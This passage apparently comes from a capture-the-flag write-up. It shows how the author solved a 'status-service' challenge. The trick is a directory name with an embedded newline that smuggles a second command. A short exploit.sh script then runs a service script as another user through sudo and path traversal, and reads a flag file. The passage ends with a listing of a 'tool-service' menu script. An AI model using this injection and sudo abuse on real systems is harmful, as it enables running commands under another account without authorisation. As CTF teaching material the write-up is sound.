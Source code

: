 ```bash
mkdir 'A
 bash launch.sh > out
'
```
__exploit.sh__
```bash
#!/bin/bash

#Pass the command in argument...
echo $1 > launch.sh
sudo -u status-service /opt/services/status-service/check-status.sh '../../tmp/A
bash launch.sh > out
cat out
```
```bash
bash exploit.sh 'cat /flags/status-service'
FLAG-fa2b89295c01b89572bdce2bb5ada189 #thanks @Ced ! :)
```

#### tool-service

```bash
cat /opt/tool-service/tool

#!/bin/bash
python /home/tech/tools/tool.py


cat /home/tech/tools/tool.py

#!/bin/python
from subprocess import call

while True:
  print "--------"
  print "Menu"
  print "--------"
  print "1) Show hostname"
  print "2) View open port"
  print "3) Exit"

  choice = raw_input("> ")

  if "1" in choice:
    call(["hostname"])
  elif "2" in choice:
    call(["netstat", "-ntpl"])
  else:
    break
```

Ok, there was a lot things in that script! All we had to do was to keep it simple baby!
